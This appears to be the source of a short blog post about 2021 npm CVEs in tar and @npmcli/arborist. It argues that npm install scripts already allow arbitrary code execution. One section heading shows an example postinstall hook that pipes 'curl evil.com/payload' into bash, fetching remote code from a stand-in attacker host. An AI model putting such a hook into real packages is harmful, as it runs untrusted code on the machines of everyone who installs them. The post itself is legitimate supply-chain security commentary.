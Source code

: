 ```yaml
---
layout: post
title: Arbitrary code execution as a feature
date: 2021-09-08T17:44:24.153Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

# postinstall: "curl evil.com/payload | bash"

npm (and yarn) will already execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). One valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/).



I don't mean to call out npm specifically: other package managers like pip have similar features.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.